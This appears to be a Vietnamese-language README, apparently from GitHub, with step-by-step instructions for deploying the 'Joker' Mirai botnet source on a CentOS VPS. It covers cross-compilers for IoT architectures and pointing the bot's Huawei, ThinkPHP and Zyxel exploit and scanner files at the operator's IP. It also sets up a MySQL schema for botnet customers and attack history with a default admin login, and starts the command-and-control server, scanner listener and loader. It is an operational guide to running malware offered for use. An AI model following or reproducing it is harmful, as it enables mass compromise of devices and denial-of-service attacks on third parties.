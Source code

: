 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ trên centos
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt Golang:

```
rm -rf /usr/local/go
```
```
wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz
```
nếu lỗi không tải xuống thì cài đặt wget
```
sha256sum go1.10.3.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
source ~/.bash_profile
```
```
rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2; 
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
```
```
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
```
```
cd /tmp
wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q
tar -xzf go1.8.3.linux-amd64.tar.gz
mv go /usr/local/go
cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP ```173.232.146.173``` thành IP của VPS

```/bot/huawei.c``` (dòng 271)

```/bot/thinkphp.c``` (dòng 277)

```/bot/zyxel_scanner.c``` (dòng 278)

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```  (để dấu , trong IP)

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root

```
yum install mariadb-server -y
```
```
systemctl start mariadb.service
```
```
mysql_secure_installation
```
VÀ THAY ĐỔI MẬT KHẨU MYSQL CỦA BẠN TRONG ```cnc/main.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

```
mysql -pMẬT KHẨU CỦA BẠN
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Tạo cơ sở dữ liệu:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)
